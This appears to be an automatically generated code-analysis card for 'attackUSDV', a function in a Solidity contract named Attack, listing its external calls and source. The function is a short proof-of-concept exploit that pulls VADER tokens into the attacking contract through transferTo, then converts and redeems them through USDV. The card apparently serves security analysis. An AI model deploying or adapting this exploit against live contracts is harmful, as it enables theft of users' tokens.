

# Context: Attack.attackUSDV

**Contract:** `Attack` (Inherits: None)
**Signature:** `attackUSDV(uint256)`
**Method Selector ID:** `0xc62a1f64`
**Visibility:** `public`
**Environment-Free:** `Yes`
**Modifiers:** None

### State Variables Interaction
- **Reads:** USDV, VADER
- **Writes:** None

### Environment & Verification Flags
- **Uses Foundry Cheatcodes:** No
- **Has Echidna Properties:** No

### Internal Calls Tree
- None

### External Calls / Value Transfers
- `iERC20.TMP_3(bool) = HIGH_LEVEL_CALL, dest:TMP_2(iERC20), function:approve, arguments:['USDV', 'amount']  `
- `iUSDV.TMP_12(uint256) = HIGH_LEVEL_CALL, dest:TMP_11(iUSDV), function:redeem, arguments:['amount']  `
- `iERC20.TMP_8(bool) = HIGH_LEVEL_CALL, dest:TMP_6(iERC20), function:transferTo, arguments:['TMP_7', 'amount']  `
- `iUSDV.TMP_10(uint256) = HIGH_LEVEL_CALL, dest:TMP_9(iUSDV), function:convert, arguments:['amount']  `
- `iERC20.TMP_5(bool) = HIGH_LEVEL_CALL, dest:TMP_4(iERC20), function:approve, arguments:['USDV', 'amount']  `

### Control Flow Graph (CFG)


### Source Mapping
Declared in: `contracts/Attack.sol` on lines **28** to **34**

```solidity
    function attackUSDV(uint amount) public {
        iERC20(VADER).approve(USDV, amount);
        iERC20(USDV).approve(USDV, amount);
        iERC20(VADER).transferTo(address(this), amount); // get VADER funds
        iUSDV(USDV).convert(amount); // Convert to USDV back to this address
        iUSDV(USDV).redeem(amount); // Burn USDV back to VADER to this address
    }

```
